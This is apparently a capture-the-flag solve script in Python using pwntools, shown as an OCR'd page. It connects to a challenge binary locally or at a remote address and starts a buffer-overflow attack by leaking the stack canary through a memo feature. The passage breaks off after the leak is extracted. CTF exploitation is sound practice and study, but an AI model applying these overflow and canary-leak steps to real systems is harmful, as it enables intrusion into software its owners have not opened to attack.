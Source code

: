 ## solve.py
```python
#!/usr/bin/env python3.8

from pwn import *
import warnings
import re

# Allows you to switch between local/GDB/remote from terminal
def connect():
    if args.GDB:
        r = gdb.debug(elf.path, gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("167.172.237.17", 32189)
    else:
        r = process([elf.path])
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    start
    b *challenge+729
    b *challenge+799
    b *challenge+800
"""

# Binary filename
exe = './chal_4_patched'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()
libc = ELF("./libc.so.6", checksec=False)
offset = 265
payload = b"A" * offset

# get CANARY leak
###############################
print(r.recvuntil("> "))
r.sendline("1") # Add Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": "))
r.sendline(str(offset)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # dummy payload to leak CANARY
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # pass

resp = r.recvline().rstrip()
print(resp)
last_A_index = resp.rindex(b'A')
leak = resp[last_A_index:last_A_index+8] # get 8 bytes starting from last A's position
```